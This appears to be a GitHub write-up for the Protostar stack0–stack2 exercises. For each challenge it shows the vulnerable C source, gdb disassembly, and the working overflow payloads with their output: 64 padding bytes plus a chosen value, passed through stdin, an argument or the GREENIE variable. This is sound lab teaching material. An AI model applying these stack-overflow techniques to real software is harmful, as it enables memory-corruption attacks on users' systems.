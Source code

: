# protostar_writeups

stack0 :
   
   Source code fir this challenge is 
   ```
    #include <stdlib.h>
    #include <unistd.h>
    #include <stdio.h>

    int main(int argc, char **argv)
    {
      volatile int modified;
      char buffer[64];

      modified = 0;
      gets(buffer);

      if(modified != 0) {
          printf("you have changed the 'modified' variable\n");
      } else {
          printf("Try again?\n");
      }
    }
   ```
   
   We need to change the integer called modified to something that is not zero.
   
   run stack0 in gdb and disassemble main
   
   ```
   (gdb) disassemble main
Dump of assembler code for function main:
0x080483f4 <main+0>:    push   ebp
0x080483f5 <main+1>:    mov    ebp,esp
0x080483f7 <main+3>:    and    esp,0xfffffff0
0x080483fa <main+6>:    sub    esp,0x60
0x080483fd <main+9>:    mov    DWORD PTR [esp+0x5c],0x0               
0x08048405 <main+17>:   lea    eax,[esp+0x1c]
0x08048409 <main+21>:   mov    DWORD PTR [esp],eax
0x0804840c <main+24>:   call   0x804830c <gets@plt>
0x08048411 <main+29>:   mov    eax,DWORD PTR [esp+0x5c]               ; modified is loaded onto eax
0x08048415 <main+33>:   test   eax,eax                                ; test if eax is 0
0x08048417 <main+35>:   je     0x8048427 <main+51>
0x08048419 <main+37>:   mov    DWORD PTR [esp],0x8048500
0x08048420 <main+44>:   call   0x804832c <puts@plt>
0x08048425 <main+49>:   jmp    0x8048433 <main+63>
0x08048427 <main+51>:   mov    DWORD PTR [esp],0x8048529
0x0804842e <main+58>:   call   0x804832c <puts@plt>
0x08048433 <main+63>:   leave
0x08048434 <main+64>:   ret
End of assembler dump.
   ```
   
   Variable can be changed if we give any input with length > 64 and "modified" will be overwritten by next 4 bytes. Construct a payload with 64*'A' and 4 'B'(this is just to ensure that we have control over the variable). break at 0x08048417 to check if we have control over modified variable. Using the payload mentioned above(64*'A'+4*'B') eax should have a value of 0x42424242(nothing but BBBB)
   
   ```
   End of assembler dump.                                                                  
(gdb) b *0x08048417                                                                     
Breakpoint 1 at 0x8048417: file stack0/stack0.c, line 13.                               
(gdb) r < /tmp/s0.txt                                                                   
Starting program: /opt/protostar/bin/stack0 < /tmp/s0.txt                               
                                                                                        
Breakpoint 1, 0x08048417 in main (argc=1, argv=0xbffff864) at stack0/stack0.c:13        
13      stack0/stack0.c: No such file or directory.                                     
        in stack0/stack0.c                                                              
(gdb) i r                                                                               
eax            0x42424242       1111638594                                              
ecx            0xbffff76c       -1073744020                                             
edx            0xb7fd9334       -1208118476                                             
ebx            0xb7fd7ff4       -1208123404                                             
esp            0xbffff750       0xbffff750                                              
ebp            0xbffff7b8       0xbffff7b8                                              
esi            0x0      0                                                               
edi            0x0      0                                                               
eip            0x8048417        0x8048417 <main+35>                                     
eflags         0x200206 [ PF IF ID ]                                                    
cs             0x73     115                                                             
ss             0x7b     123                                                             
ds             0x7b     123                                                             
es             0x7b     123                                                             
fs             0x0      0                                                               
gs             0x33     51                                                              
(gdb)                                                                                   
   ```
   eax has changed to 0x42424242 thus overwrote "modified" 
   ```
   user@protostar:/opt/protostar/bin$ ./stack0 < /tmp/s0.txt
   you have changed the 'modified' variable
   ```
   
Stack1 :

  Same as stack0. Only difference is it requires an argument instead of input.Here strcpy copies argv[1] to buffer. strcpy doesn't check for length of buffer so it will continue writing to the buffer until it finds a null byte. So it can overwrite modified.  
  ```
  #include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}

  ```
   Since we already have control over "modified"("BBBB" in stack0) we just need to replace "BBBB" with "dcba ==>(0x64636261)". Since the machine islittle endian the order should be reversed.
   
   
   ```
   user@protostar:/opt/protostar/bin$ ./stack1 $(python -c "print 'A' *64 +'dcba'")
   you have correctly got the variable to the right value
   ```
   
   Stack2 :
   
   same as stack1 but strcpy copies data to buffer from an environment variable called "GREENIE". You can set environment variables with the command ``` export GREENIE= <any value>```. 
   
   Here modified vaiable is being compared to 0x0d0a0d0a. Inorder to modify "modified", GREENIE should be <64bytes>+"\x0a\x0d\x0a\x0d"(little endian for  0x0d0a0d0a )
   
   ```
   user@protostar:/opt/protostar/bin$ ./stack2
stack2: please set the GREENIE environment variable
user@protostar:/opt/protostar/bin$ export GREENIE="AAAA"
user@protostar:/opt/protostar/bin$ set | grep "GREENIE" 
GREENIE=AAAA
_=GREENIE
user@protostar:/opt/protostar/bin$ ./stack2
Try again, you got 0x00000000
user@protostar:/opt/protostar/bin$ export GREENIE=$(python -c "print 'A'*64+'\x0a\x0d\x0a\x0d'")
user@protostar:/opt/protostar/bin$ ./stack2
you have correctly modified the variable
   ```
